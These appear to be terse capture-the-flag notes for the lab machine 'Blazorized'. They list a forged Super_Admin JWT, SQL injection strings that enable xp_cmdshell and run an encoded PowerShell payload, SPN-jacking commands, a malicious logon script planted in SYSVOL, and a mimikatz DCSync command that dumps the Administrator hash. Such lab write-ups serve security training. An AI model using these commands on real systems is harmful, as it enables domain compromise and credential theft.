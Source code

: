 # Blazorized

JWT:

{
  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Super_Admin",
  "iss": "http://api.blazorized.htb",
  "aud": "http://admin.blazorized.htb",
  "exp": 1740000000
}


Inject:
www'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -
www'; exec master..xp_cmdshell 'powershell#3base64';-- -

SPN Jacking
https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking
https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='xx/xx'}
Get-DomainSPNTicket -SPN xx/xx

Login bat:
'powershell #3 base64 payload'| Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\shell.bat -Encoding ASCII

Set ScriptPath:
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\shell.bat'

Get NTLM Hash:
lsadump::dcsync /domain:blazorized.htb /user:Administrator
